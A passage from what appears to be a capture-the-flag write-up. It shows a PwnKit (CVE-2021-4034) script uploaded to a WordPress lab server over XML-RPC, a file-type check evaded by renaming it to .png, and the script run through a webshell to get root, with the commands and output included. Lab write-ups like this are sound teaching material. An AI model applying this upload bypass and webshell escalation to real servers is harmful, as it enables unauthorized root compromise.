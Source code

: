 On sending this, there’s an error:

```

>>> client.call(media.UploadFile(data))
Traceback (most recent call last):
...[snip]...
xmlrpc.client.Fault: <Fault 500: 'Could not write file pkwner.sh (Sorry, you are not allowed to upload this file type.).'>

```

The file type seems like a `type` issue, so I’ll change it to something I probably can upload, `image/png`, but I get the same error. I’ll try changing the file extension to `.png`, and it works:

```

>>> data = { 'name': 'pkwner.png', 'bits': script, 'type': 'text/plain' }
>>> client.call(media.UploadFile(data))
{'attachment_id': '48', 'date_created_gmt': <DateTime '20220201T23:14:24' at 0x7f25f8bb9a60>, 'parent': 0, 'link': '/wp-content/uploads/2022/02/pkwner.png', 'title': 'pkwner.png', 'caption': '', 'description': '', 'metadata': False, 'type': 'text/plain', 'thumbnail': '/wp-content/uploads/2022/02/pkwner.png', 'id': '48', 'file': 'pkwner.png', 'url': '/wp-content/uploads/2022/02/pkwner.png'}

```

It’s even nice enough to give me the full path!

#### POC Success

I can just call `bash` on that file (even with the `.png` extension, though I could also move it with the webshell), and it works:

```

oxdf@hacky$ ./webshell.sh 'bash /var/www/html/wp-content/uploads/2022/02/pkwner.png'
██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ 
██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗
██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝
██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗
██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║
╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝
CVE-2021-4034 PoC by Kim Schulz
[+] Setting up environment&#8230;
[+] Build offensive gconv shared module&#8230;
[+] Build mini executor&#8230;
uid=0(root) gid=0(root) groups=0(root),33(www-data)
hello[+] Nice Job

```

Because it prints out `uid=0`, that shows it ran as root.

#### Get Flag

I can remove the image from the server (with the webshell) change the last line in my local copy to `cat /root/root.txt`, upload it again, and run it to get the flag:
